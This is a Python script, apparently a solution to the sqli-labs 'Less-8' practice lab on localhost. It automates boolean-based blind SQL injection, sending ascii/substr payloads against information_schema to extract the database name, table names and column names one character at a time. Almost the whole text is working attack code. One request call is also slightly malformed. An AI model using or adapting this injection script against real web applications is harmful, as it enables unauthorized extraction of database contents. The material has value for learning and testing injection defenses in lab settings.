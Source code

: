 ```python
        j=1
        while(1):
            k=0
            while(k<128):
                addcode=" and ascii(substr((select column_name from information_schema.columns where table_name='"+tablename+"' limit "+str(i)+",1),"+str(j)+",1))="+str(k)+" --+"
                r=requests.get(url,code+addcode)
                if(re.search(right,r.text)):
                    if(k==0 and j==1):
                        tablefin=1
                        break
                    elif(k==0):
                        columnfin=1
                        break
                    else:
                        columnname+=chr(k)
                        break
                k+=1
            if(k==128):
                tablefin=1
                break
            j+=1
            if(columnfin==1):
                columnfin=0
                break
            if(tablefin==1):
                break
        if(tablefin==1):
            break

        i+=1
        columnlist.append(columnname)
    return columnlist


code="id=1'"
right="You are in..........."
url="http://localhost/sqli-labs-master/Less-8"
data={'id':code}
databasename="security"
databasename=GetDataBaseName(code,url,right)
print("DataBaseName:",databasename)
tablelist=GetTable(code,url,right,databasename)
print(tablelist)
tablename='users'
print("table name:",tablename)
columnlist=GetColumn(code,url,right,tablename)
print(columnlist)

```
